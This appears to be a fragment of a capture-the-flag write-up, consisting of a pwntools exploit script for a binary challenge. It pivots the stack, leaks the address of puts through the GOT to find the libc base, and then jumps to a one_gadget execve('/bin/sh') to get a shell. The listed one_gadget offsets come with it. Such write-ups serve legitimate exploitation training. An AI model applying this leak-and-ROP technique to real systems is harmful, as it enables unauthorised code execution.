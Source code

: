 ```plain
    gdb.attach(p)
    pause()

rdi=0x0000000000401363
ret=0x000000000040101a
rsi=0x0000000000401361
bss=0x404000+0x500
levae=0x4011FF

puts_p=0x00000000004007C0
leak('puts_p',puts_p)
puts_g=elf.got['puts']
leak('puts_g',puts_g)

payload1=b'\x00'*0x30+p64(bss-0x8)+p64(rdi)+p64(puts_g)+p64(puts_p)+p64(levae)
payload1=payload1.ljust(0x950,b'\x00')
sl(payload1)

ru('\n')
leak=u64(r(6)+b'\x00'*2)-libc.symbols['puts']
p.sendline(b'\x00'*0x30+p64(1)+p64(leak+0xe6c81))
itr()
'''
onegadget
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
'''
```

[![](assets/1700528976-4e8e25780f0f7db1a0f3b2e76a6c416f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119164349-c25367fe-86b7-1.png)
